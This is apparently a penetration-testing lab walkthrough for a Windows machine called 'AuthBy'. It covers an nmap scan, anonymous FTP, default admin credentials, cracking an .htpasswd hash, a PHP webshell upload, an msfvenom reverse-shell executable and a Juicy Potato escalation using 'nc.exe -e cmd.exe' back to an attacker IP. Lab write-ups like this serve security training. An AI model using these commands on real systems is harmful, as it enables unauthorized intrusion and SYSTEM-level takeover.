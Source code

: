 # AuthBy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.46
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:56 +08
Nmap scan report for 192.168.160.46
Host is up (0.17s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
242/tcp  open  direct
3145/tcp open  csi-lfap
3389/tcp open  ms-wbt-server
```

I didn't didn't recognise prot 242 and 3145, so I ran a detailed scan on them.

```
$ sudo nmap -p 242,3145 -sC -sV --min-rate 3000 192.168.160.46     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:57 +08
Nmap scan report for 192.168.160.46
Host is up (0.17s latency).

PORT     STATE SERVICE    VERSION
242/tcp  open  http       Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
3145/tcp open  zftp-admin zFTPServer admin
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### FTP Anonymous Access --> .htpasswd

The FTP service on port 21 accepts anonymous logins:

```
$ ftp 192.168.160.46 
Connected to 192.168.160.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
Name (192.168.160.46:kali): anonymous
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2048|)
150 Opening connection for /bin/ls.
total 9680
----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
----------   1 root     root           25 Feb 10  2011 UninstallService.bat
----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
----------   1 root     root           17 Aug 13  2011 StopService.bat
----------   1 root     root           18 Aug 13  2011 StartService.bat
----------   1 root     root         8736 Nov 09  2011 Settings.ini
dr-xr-xr-x   1 root     root          512 Jul 13 13:56 log
----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
----------   1 root     root           23 Feb 10  2011 InstallService.bat
dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
dr-xr-xr-x   1 root     root          512 Feb 18 01:19 accounts
```

The `accounts` folder is the most interesting:

```
ftp> cd accounts
250 CWD Command successful.
ftp> ls
229 Entering Extended Passive Mode (|||2049|)
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Feb 18 01:19 backup
----------   1 root     root          764 Feb 18 01:19 acc[Offsec].uac
----------   1 root     root         1030 Feb 18 01:19 acc[anonymous].uac
----------   1 root     root          926 Feb 18 01:19 acc[admin].ua
```

We cannot download these files, but now we know there's also an `admin` and `offsec` user. I tried re-logging in using `admin:admin`, and it worked:

```
$ ftp 192.168.160.46
Connected to 192.168.160.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
Name (192.168.160.46:kali): admin
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
lftp> ls
229 Entering Extended Passive Mode (|||2051|)
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
```

We can crack the hash within `.htpasswd`:

```
$ john --show hash                                     
offsec:elite

1 password hash cracked, 0 left
```

We can then login to the web application hosted on port 242:

<figure><img src="../../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

### RCE

I put a `cmd.php` file in the `admin` FTP folder, and it worked in getting RCE:

<figure><img src="../../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

The machine didn't have `powershell`, so I generated a reverse shell payload:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.191 LPORT=4444 -f exe > rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Placed it within the FTP server and executed it using my webshell:

```
$ curl -H 'Authorization: Basic b2Zmc2VjOmVsaXRl' -G --data-urlencode 'cmd=.\rev.exe' http://192.168.160.46:242/cmd.php
```

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersoantePrivilege --> Potato

This user had the `SeImpersonatePrivilege` enabled:

```
C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I tried transferring x64 binaries over, but they didn't work, indicating that the machine was x86. As such, I transferred `juicypotatox86.exe` and `nc32.exe` over to exploit this. We can dowload files using `certutil`.

```
C:\Windows\Tasks>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Windows\Tasks

07/13/2023  12:08 AM    <DIR>          .
07/13/2023  12:08 AM    <DIR>          ..
07/13/2023  12:07 AM           263,680 juicypotatox86.exe
07/13/2023  12:07 AM            38,616 nc.exe
07/09/2020  11:07 AM            21,360 SCHEDLGU.TXT
```

We can then run `nc.exe` as the SYSTEM user using Juicy Potato:

{% code overflow="wrap" %}
```
.\juicypotatox86.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p C:\Windows\system32\cmd.exe -a "/c C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.191 4444" -t *
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>
